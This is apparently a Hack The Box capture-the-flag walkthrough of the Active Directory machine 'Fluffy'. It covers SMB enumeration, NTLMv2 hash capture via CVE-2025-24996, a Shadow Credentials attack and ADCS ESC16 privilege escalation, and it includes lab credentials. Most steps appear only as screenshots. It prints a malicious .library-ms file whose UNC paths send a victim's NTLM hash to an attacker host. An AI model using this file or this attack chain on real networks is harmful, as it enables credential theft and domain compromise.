> Writeup · part of **[htb-walkthroughs](../README.md)** · [⬇ original PDF](Fluffy.pdf)

---

# **SEASON 8: Active Directory → Fluffy** 

<u>https://www.hackthebox.com/machines/Fluffy</u> 

This is a season 8 box testing on AD enumeration and exploitation. Initial creds: **j.fleischman / J0elTHEM4n1990!** 

## **Nmap Scan output** 

- ➔ Having port 88 kerberos and 389 ldap, we now know we are attacking a Domain Controller. 



## **ENUMERATION** 

## **1. SMB** 

Using smbmap, we are able to determine which shares we can read and right on. So we have read,write on IT share. 



Using the initially given creds, we connect to  the IT share and proceed to download an upgrade notice file. 





``` 

Recent Vulnerabilities 

CVE IDSeverity 

CVE-2025-24996Critical 

CVE-2025-24071Critical 

CVE-2025-46785High 

CVE-2025-29968High 

CVE-2025-21193Medium 

CVE-2025-3445Low 

``` 



## **A. CVE-2025-24996** 



### **EXPLOITING THIS VULNERABILITY TO CAPTURE NTLMv2 Hash.** 

We’ll now create a .library-ms file e.g ``` ``` 

<?xml version="1.0" encoding="UTF-8"?> 

<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library"> 

<name>Malicious Library</name> 

<version>6</version> 

<isLibraryPinned>false</isLibraryPinned> 

<iconReference>\\10.10.*.*\share\icon.ico</iconReference> 

<template>generic</template> 

<libraryType>Generic</libraryType> <searchConnectorDescriptionList> <searchConnectorDescription> 

<folderType>Generic</folderType> 

<iconReference>\\10.10.*.*\share\icon.ico</iconReference> 

<simpleLocation>\\10.10.*.*\share</simpleLocation> 

</searchConnectorDescription> 

</searchConnectorDescriptionList> 

</libraryDescription> ``` 

``` 

### Saved the file, and uploaded it to the target machine. 



Used john to retrieve the cleartext password 



Testing if this credentials are working on the target machine ‘ **p.agila:prometheusx-303** ’ 



## **LDAP AND BLOODHOUND ENUMERATION** 



Ldap output 



### Checking if ADCS service is enabled 



### Bloodhound dump output 



p.agila is a member of service account managers and has generic all on service accounts members. 



We’ll add p.agila into the service accounts group using net rpc tool. 





Now members in the service account have generic write to other members within this same group. 



## **Shadow Credentials attack** 

Tool: pywhisker 



### Requesting TGT 



Retrieving the NTLM hash for user winrm_svc 



## **USER FLAG** 



## **PRIVILEGE ESCALATION** 

## **ADCS ABUSE** 

Finding vulnerable certificates: After a bit of enumeration, with user ca_svc, we are able to find vulnerable certificate templates using certipy 



Using the previous steps of our SHADOW CREDENTIALS ATTACK, were are able to retrieve ca_svc hash with which we can use to find vulnerable certificate templates 







### Retrieved the LM hash for user ca_svc 



### Enumerating ADCS to find vulnerable certificates templates 



Enumerating the ADCS using certipy to find vulnerable templates 



## **ABUSING ESC16** 

Update the victim account's UPN to the target administrator's sAMAccountName.sAMAccountName 



Request a certificate as the "victim" user from any suitable client authentication template _any suitable client authentication template_ 



Authenticate as the target administrator. 


